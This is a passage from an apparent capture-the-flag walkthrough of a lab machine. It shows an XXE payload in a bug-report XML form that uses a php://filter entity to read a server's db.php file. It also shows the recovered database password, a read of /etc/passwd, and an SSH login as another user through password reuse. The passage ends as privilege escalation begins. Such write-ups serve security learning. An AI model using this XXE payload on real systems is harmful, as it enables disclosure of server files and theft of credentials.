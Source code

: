 ```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>asdffasd</title>
		<cwe>asdfasdf</cwe>
		<cvss>asfdasdf</cvss>
		<reward>&file;</reward>
		</bugreport>
```

Upon submission, the server returned our file:

![[Pasted image 20250209142718.png]]

On the right, burpsuite decoded it and we found some valuable credentials:

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```

Earlier, we were also able to obtain the /etc/passwd file, which tells us which users exist on the system. After pulling that file again and decoding the output, we found 2 users we could login as, root and development. We can try to SSH into the box as development with admin's DB password:

![[Pasted image 20250209152336.png]]

I'm now logged in as development. Time to escalate privileges.
<br>
<br>
# **Privilege Escalation**  
In development's home directory, there's a file named "contract.txt", and it reads the following:

```
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```
